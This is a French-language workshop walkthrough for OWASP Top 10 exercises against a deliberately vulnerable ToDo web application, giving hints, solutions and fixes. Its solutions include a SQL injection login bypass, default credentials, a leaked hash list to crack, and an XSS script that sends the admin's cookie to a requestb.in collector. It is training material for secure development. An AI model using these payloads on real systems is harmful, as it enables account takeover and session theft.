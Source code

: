 = Pas à pas
:author: Pascal Abaziou
:email: https://github.com/javathought[@javathought]
:revnumber: v1.0
:revdate: 27.02.2018
:revremark: First draft


:icons: font
:imagesdir: ./images

++++
<link rel="stylesheet" href="stylesheets/font-awesome.min.css">

<script
			  src="https://code.jquery.com/jquery-3.3.1.min.js"
			  integrity="sha256-FgpCb/KJQlLNfOu91ta32o/NMZxltwRo8QtmkMRdAu8="
			  crossorigin="anonymous"></script>

<link rel="stylesheet" href="stylesheets/bootstrap.css">
<script src="js/bootstrap.min.js"></script>
++++

:stylesheet: stylesheets/fontawesome-4.1.0.css
:iconfont-remote!:

:iconfont-name: fontawesome-4.1.0
:stylesdir: stylesheets
:numbered:

 Cette page présente un pas à pas de l'atelier, avec des indices afin de vous débloquer si nécessaire. Essayez de faire les exercices sans vous `spoiler` avec ces indices.


= Introduction

=== OWASP

Le site de l'OWASP : https://www.owasp.org/index.php/Main_Page

Lien utile : le pdf du https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project#tab=Main[Top 10]

== Présentation de l'application


=== Gestion d'une ToDo liste

Une simple application Single App de gestion de ToDo liste :

. Un accès administrateur pour gérer les utilisateurs
. Un accès utilisateur pour gérer sa todo liste

=== Stack technique

. IHM en AngularJS

. Backend REST en Jersey/Jooq (grizzly embarqué)

. une fenêtre modal de login basée sur des exemples
Angular : http://jasonwatmore.com/post/2014/05/26/angularjs-basic-http-authentication-example
Boostrap : https://bootsnipp.com/snippets/featured/clean-modal-login-form

= Exercices

== Se connecter à l'application en tant qu'administrateur par injection SQL

Tentez de vous connecter à l'application.


* Énoncé

Allez sur la page d'accueil de l'application et tenter de vous connecter en tant qu'administrateur.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce1" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce2" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse1" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce1,role=collapse]
--
 Le compte de l'administrateur est admin
--

[id=astuce2,role=collapse]
--
 Injectez un bout de code afin que la clause `where` de la requête d'authentification renvoyant toujours vrai
--

[id=reponse1,role=collapse]
Utilisez le mot de passe suivant : `e' or '1' = '1`

* Correction

Utilisez le DSL de Jooq pour les requêtes dynamiques. Outre le fait de générer des requêtes paramétrées, il les génère
de manière "type safe".

== Se connecter à l'application en tant qu'administrateur en devinant le mot de passe

* Énoncé

Le compte de l'administrateur n'a pas été correctement initialisé et son mot de passe est *très* faible (oui ça arrive).

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce3" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse2" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce3,role=collapse]
--
 Le mot de passe est égal au nom d'utilisateur
--
[id=reponse2,role=collapse]
--
 Essayez avec admin/admin
--

* Correction

Changez le mot de passe de l'administrateur

== Se connecter avec le compte d'un utilisateur de l'application

Des pirates ont diffusé un extrait des comptes des utilisateurs d'un site sur lequel ils se sont introduits.
Pouvez-vous en tirer partie pour vous connecter sur l'application ?

----
courtneyrivera@exostream.com   :21bd100d4f6e8fa6eecad2a3aa415eec418d38ec
mckeecarey@apex.com            :21bd1011053fd0102e94d6ae2f8b83d76faf94f6
ellasykes@magnina.com          :21bd1012a7ca357541f0ac487871feec1891c49c
lewishiggins@shopabout.com     :21bd10136e006e24e7d152139815fb0fc6a50b15
arthur.doe@example.com         :21bd12dc183f740ee76f27b78eb39c8ad972a757
whitneyjimenez@animalia.com    :21bd165c1026eaa0119cd86f4a9d148ee2d51d82
john.doe@example.com           :cbfdac6008f9cab4083784cbd1874f76618d2a97
figueroacaldwell@pyrami.com    :21bd165fec9e83edeffb2320645ca1512f3b2a50
yolandamcneil@puria.com        :21bd166677b8ed92cdecd44a8635e3e993de04e9
frostcallahan@quonata.com      :21bd16667e903bf80b3e62bb1a4654e7f2d7187f
albertawolf@joviold.com        :21bd16991a1bf5574e570db8e98bbe7346acaa94
huntermoody@combot.com         :21bd16a088d608dbb983fb120b27882a9a77bb29
demo.doe@example.com           :a94a8fe5ccb19ba61c4c0873d391e987982fbbd3
alicefrye@quarmony.com         :21bd16b1fa49a7f28aa2c3336f7e6a0715a602d3
mindyhull@recognia.com         :21bd16c49f100471b44bbde181c5443b95344a31
socorrokent@comverges.com      :21bd16c4ba5dfc19575e035ec7eaa82001b96d03
blakelester@nutralab.com       :21bd16c5b3efdab6e40e0a4b2dfefe81f50018b6
jane.doe@example.com           :40bd001563085fc35165329ea1ff5c5ecbdbbeef
mike.doe@example.com           :315f166c5aca63a157f7d41007675cb44a948b33
gordonobrien@talkola.com       :21bd16d22a591152b1cb368ddebe38aef895259b
cherrymiles@assistia.com       :21bd16d358b829c770f763cea21bf73f550c3e2f
mathilde.doe@example.com       :5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8
barbarahahn@extro.com          :21bd16d44a7750f3bdfc90cb4f5836b8926afc5f
watsonriddle@songlines.com     :21bd16d4a08cb51c8b88fc8ce07742974d7d541d
gibsonbradley@comtest.com      :21bd16e17b1233f394c9ae095d73b4cb4025a3ac
leticiacarr@qualitex.com       :21bd16e231b238a632f3388662dc3735fbd44f8e
rowenacoleman@bleendot.com     :39007e310acd5cc5582c34c408ebf4cc
mararhodes@artiq.com           :c69f24b431852eb5b2db419860387dad
tanishaadams@opticom.com       :713f6fcbeeacbd3a78401382f88f5d1f
cruzharmon@intergeek.com       :86fc184cabcf0626c479927cc4e5e998
flossiecantu@applica.com       :c075be959b6831fb01d52591963d12b7
leonorstevenson@plasmosis.com  :6c058fea843d5bff058c939fde3a6eb8
christiangonzales@springbee.com:2dfecece2bf00698dd5fbae90e2f0860
candiceshaffer@geekology.com   :e720578393bb68956f079c3db426d6ec
deliahewitt@kyagoro.com        :b0963f1a7fd94698a6e76e402daffcef
lydiadouglas@capscreen.com     :026d29ad37c6c672315e5a9c358d0a7c
waderowe@pigzart.com           :7d01d8893e7ddbb18ceb40c59ef384c2
mejiasilva@hyplex.com          :bf1a688689f82ba39b9efa236d09c539
mcfarlanddale@pasturia.com     :dfcd9ad16c5358c1c420343a7b2b683b
kristihickman@zyple.com        :14f6609d95e3830b14709bce165041af
lauriewebb@injoy.com           :2b1841891df6de05b163d8dbbe79036c
daniellelong@datagen.com       :9fe44d8eb7fbc5217fad2e54d09871ed
vickistein@kaggle.com          :961887ee6a084c02619f22f6b2e8a852
staceyweaver@comtent.com       :fd9d9fa433c0d9385345355c17be13f4
meltonvelasquez@mangelica.com  :fa22376fe0782fe9313385846e66b979
rodriquezmorse@nexgene.com     :095614e5971ad8a81d4f232c00bbf33d
silviabell@vendblend.com       :f14c92dd1b2281cdf0f5999e595442de
hoodmatthews@jasper.com        :6e0f9ff4606b41705ea25bcbff1ac94b
mitziholt@orbalix.com          :49cacc76a288058b68ded69f0c804269
howardsalinas@utarian.com      :cbc7f37615111efe8e246d3316e24408
barlowbradshaw@primordia.com   :81fc99cc34d28eec3c90109cab7ddfbe
mattiemoon@combogene.com       :e838f7db8ef56faa9b49e8215dfbbee7
berylharper@escenta.com        :02ae65a2f3dac98a54290f09c39758ed
margeryglover@mediot.com       :3a7edcb86afee6b0853fba0a16672bcd
searswalls@isopop.com          :22d541659b917e40146f4d4256b2a2e2
mariannehayes@phormula.com     :4e953e9a0a0f2503e8b8269b2c4a8057

----


++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce4" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse3" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce4,role=collapse]
--
 Les valeur en clair des empreintes SHA-1 sont facilement retrouvables par rainbow tables
--

[id=reponse3,role=collapse]
--
 Utilisez le site https://hashkiller.co.uk/sha1-decrypter.aspx qui possède des rainbow tables sur les mots de passe de sites hackées
--



* Correction

.L'application ToDo stocke aussi l'empreinte des mots de passe en simple hash SHA-1.
Renforcez le chiffrement par un hachage renforcé.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce5" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce6" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse4" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce5,role=collapse]
--
 Une bonne fonction de hachage doit être forte, évolutive, avec un sel et un facteur de travail
--

[id=astuce6,role=collapse]
--
 Utilisez un des fonctions suivantes : Argon2, PBKDF2, scrypt, ou bcrypt.
--

[id=reponse4,role=collapse]
--
 Le patch `stockage_pwd.patch` contient une première implémentation PBKDF2.
 Le site https://veggiespam.com/painless-password-hash-upgrades/ présente un guide compatible avec Spring security
--

.Se protéger contre la réutilisation des mots de passe provenant de sites hackés

. refusez les emails comme compte de connexion
. créez une base des mots de passe des hash divulgués, initialisez-là avec la liste ci-dessus et contrôlez l'utilisation d'un mot de passe "corrompu"
lors de la mise à jour du mot de passe.

[NOTE]
En cible vous pouvez récupérer une base de hash ayant fuité par exemple sur https://crackstation.net/buy-crackstation-wordlist-password-cracking-dictionary.htm :
1,493,677,782 entrées, 15GB

== Obtenez les informations de session de l'administrateur

Le site est sensible aux attaques XSS. Profitez en pour obtenir les informations de connection de l'administrateur

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce16" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce17" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse9" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce16,role=collapse]
--
Utilisez le site https://requestb.in/ pour recueillir les informations de l'attaque XSS
--

[id=astuce16,role=collapse]
--
Créez un todo de type publique avec un script d'attaque
--


[id=reponse9,role=collapse]
--
utilisez le code suivant dans la description de la todo (en remplaçant l'id 1lwyhpu1 par celui que vous avez généré).
<script>document.write("<img src=https://requestb.in/1lwyhpu1?s="+encodeURI(document.cookie)+"></img>");</script>
--

* Correction

- Supprimez les identifiants de connection du cookie actuel
- Générez un cookie de session sécurisé (html only et secure) avec un token non rejouable
- Supprimez l'interprétation de la description d'une todo dans la page publique

== XXE ?

== Augmentez vos privilèges

Connectez vous avec votre compte utilisateur : devoxx/devoxx2018 et essayez d'obtenir les droits administrateurs
en modifiant le contenu d'une requête REST légitime.


++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce7" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce8" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
++++

[id=astuce7,role=collapse]
--
 Regardez le contenu de la requête REST de changement de mot de passe.
--

[id=astuce8,role=collapse]
--
 2 actions sont possibles :
 - modifier le code html (avec developerTools sous Chrome par exemple)
 - intercepter la requête pour la modifier et la rejouer
--

* Correction

Ajoutez un contrôle d'accès au fonctions autorisées

. Séparez les fonctions de l'administrateur et de l'utilisateur normal (Créez une classe CurrentUserResources).
. Ajoutez un contrôle d'accès différent sur la classe UserResource (pour l'administrateur) et la classe CurrentUserResource.
 La récupération des rôles de l'utilisateur a déjà été effectuée dans le principal

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse5" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>

++++


[id=reponse5,role=collapse]
--
 Annotez les classes avec @RolesAllowed(ADMIN) et @RolesAllowed(Role.USER)
 Les annotations peuvent aussi se faire au niveau des méthodes.
--


== Accédez et modifiez les todos des autres utilisateurs

De nouveau connectez-vous avec votre compte utilisateur (devoxx/devoxx2018).
Supprimez vos droits administrateurs puis essayez d'accéder et/ou modifier les todos d'un autre utilisateur.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce9" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse6" aria-expanded="false" aria-controls="collapseExample">
  Solution
</a>
++++

[id=astuce9,role=collapse]
--
 Regardez l'url de la page lorsque vous affichez le détail d'une todo
--

[id=reponse6,role=collapse]
--
 Affichez la todo avec l'id 1 par exemple
--


* Correction

. Remplacez l'id d'accès aux todos par un uuid pour empêcher les utilisateurs de forger des requêtes illicites.
. Ajoutez un contrôle d'accès au périmètre de données autorisées.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce10" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce11" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce12" aria-expanded="false" aria-controls="collapseExample">
  Indice 3
</a>
++++

[id=astuce10,role=collapse]
--
 Pour la première modification, l'application gère déjà un `id` et un `uuid`. Pour ne plus les restituer dans le corps JSon des réponses,
 il suffit d'inverser l'utilisation de l'annotation `@XmlTransient`. Il reste à modifier les appels de ressources avec
 l'id en paramètre et les requêtes sql associées à un id.
--

[id=astuce11,role=collapse]
--
 Pour la deuxième modification, il faut seulement accéder aux données de l'utilisateur courant. Enrichissez la classe
 `CurrentUserResource` pour implémenter l'accès aux todos de l'utilisateur connecté.
--

[id=astuce12,role=collapse]
--
 Pour récupérer l'utilisateur actuel, utiliser le code suivante : `(User) securityContext.getUserPrincipal()`
--


== Security Misconfiguration


== Insecure deserialization

== Composants vulnérables

Vérifiez la présence de dépendendances vulnérables sur le serveur REST.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce13" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse7" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce12" aria-expanded="false" aria-controls="collapseExample">
  Indice 3
</a>
++++

[id=astuce13,role=collapse]
--
 L'OWASP me à disposition un outil de vérification de présence de vulnérabilités dans les dépendences d'un projet, notamment
 sous forme de plugin maven.
--

[id=reponse7,role=collapse]
--
  mvn dependency-check:check -pl owasp-jersey

  Montez de version Jackson et vérifiez que le plugin ne remonte plus de vulnérabilité sur cette dépendance.
--


== Logging and monitoring

Mettez en place un logging systématique dédié à la sécurité sur les accès aux ressources REST.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce14" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#reponse8" aria-expanded="false" aria-controls="collapseExample">
  Indice 2
</a>
++++

[id=astuce14,role=collapse]
--
 Utilisez 2 filtres (1 ContainerRequestFilter et 1 ContainerResponseFilter) pour générer les logs de sécurité
 Utilisez les `MCD` dans le premier filtre pour positionner les informations de contexte (comme le nom de l'utilisateur accédant à la ressource)
 Utilisez un `Marker` dans le deuxième filtre pour identifer les logs de sécurité (et pouvoir les isoler dans un fichier dédié.)
--

[id=reponse8,role=collapse]
--
  Utilisez le patch suivant : `owasp-A10-2017-logging.patch
--

Mettez en place un logging systématique dédié à la sécurité sur les accès aux ressources REST.

Monitorez cette log dans ELK. Utilisez ces commandes pour lancer les conteneurs Elastic et Kibana.

----
docker network create elastic
docker run --network=elastic -e ELASTIC_PASSWORD=MagicWord --name elasticsearch -p 9200:9200 -p 9300:9300 -e "discovery.type=single-node" docker.elastic.co/elasticsearch/elasticsearch-platinum:6.2.3
docker run --network=elastic -e ELASTICSEARCH_PASSWORD=MagicWord -p 5601:5601 docker.elastic.co/kibana/kibana:6.2.3
docker run --network=elastic -e XPACK_MONITORING_ELASTICSEARCH_PASSWORD=MagicWord -e XPACK_MONITORING_ELASTICSEARCH_USERNAME=elastic --rm -it -v ~/workspace/devoxx/devoxx-2018/logs:/usr/logs -v ~/pipeline/:/usr/share/logstash/pipeline/ docker.elastic.co/logstash/logstash:6.2.3
----

Les logs générées peuvent contenir des informations sensibles. Modifiez les classes d'audit pour supprimer ces informations avant
d'écrire la log.

++++
<a class="btn btn-xs btn-default" role="button" data-toggle="collapse" href="#astuce15" aria-expanded="false" aria-controls="collapseExample">
  Indice 1
</a>
++++

[id=astuce15,role=collapse]
--
 Dans le cas de la classe `AuthenticateResource`, le mot de passe va être loggué. Supprimez cette information du payload json.
--

Ajoutez l'IP d'origine, elle pourra permettre les actions suivantes:
. identifier des scénarios d'attaque (tentaive de connexion sur plusieurs comptes à partir de la même  ip par exemple)
. bannir une ip


== créez un todo dans la liste de l'utilisateur connecté

Utilisez le site de hacker sous le répertoire `owasp-hacker` pour faire une action à l'insu de l'utilisateur connecté :

- démarrez le site de hacker `npm run lite`
- allez à l'adresse : https://localhost:9095/#/nice
- cliquez sur le bouton  `cliquez ici`
- retourner sur le site de Todo et regardez votre liste de Todos

Ajoutez une protection contre les attaques CSRF :


== click jacking  et headers



== ajouter des tests

Le module `owasp-jersey` contient une structure de tests utilisant `Cucumber` et `rest-assured. Enrichissez-là
pour faire un rapport de tests de sécurité.

Les tags de cucumber permettent de présenter la couverture des risques owasp

image::couverture_test.png[couverture owasp]



== 2FA

== Reinit password


